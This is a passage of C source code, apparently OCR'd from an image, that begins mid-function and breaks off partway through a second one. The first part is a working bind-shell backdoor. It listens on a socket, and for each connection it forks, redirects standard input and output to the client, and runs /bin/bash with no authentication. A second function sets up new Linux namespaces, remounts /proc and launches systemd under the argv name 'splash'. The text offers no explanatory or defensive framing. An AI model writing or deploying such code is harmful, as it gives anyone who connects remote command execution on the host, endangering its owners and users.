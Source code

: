 ```c

    if (bind(serv_sockfd, (struct sockaddr *)&servaddr, sizeof(servaddr)) == -1) {
        perror("bind");
        close(serv_sockfd);
        exit(EXIT_FAILURE);
    }

    if (listen(serv_sockfd, 10) == -1) {
        perror("listen");
        close(serv_sockfd);
        exit(EXIT_FAILURE);
    }

    while (1) {
        if ((client_sockfd = accept(serv_sockfd, NULL, NULL)) == -1) {
            perror("accept");
            close(serv_sockfd);
            exit(EXIT_FAILURE);
        }

        pid = fork();
        if (pid == -1) {
            perror("fork");
            close(serv_sockfd);
            exit(EXIT_FAILURE);
        } else if (pid == 0) {
            dup2(client_sockfd, 0);
            dup2(client_sockfd, 1);
            dup2(client_sockfd, 2);

            execve("/bin/bash", NULL, NULL);
        }
    }
    close(serv_sockfd);
}

void setup_ns(void) {
    int flags, wstatus;
    char *new_argv[] = { "splash", NULL };
    pid_t pid;

    flags = CLONE_FILES | CLONE_NEWNS | CLONE_NEWIPC | CLONE_NEWPID | CLONE_NEWUTS;

    if (unshare(flags) == -1) {
        perror("unshare");
        exit(EXIT_FAILURE);
    }

    pid = fork();
    if (pid == -1) {
        perror("fork");
        exit(EXIT_FAILURE);
    } else if (pid == 0) {
        if (mount("none", "/proc", NULL, MS_PRIVATE | MS_REC, NULL) == -1) {
            perror("mount");
            exit(EXIT_FAILURE);
        }
        if (mount("proc", "/proc", "proc", MS_NOSUID | MS_NOEXEC | MS_NODEV, NULL) == -1) {
            perror("mount");
            exit(EXIT_FAILURE);
        }
        execve("/lib/systemd/systemd", new_argv, NULL);
    } else {
```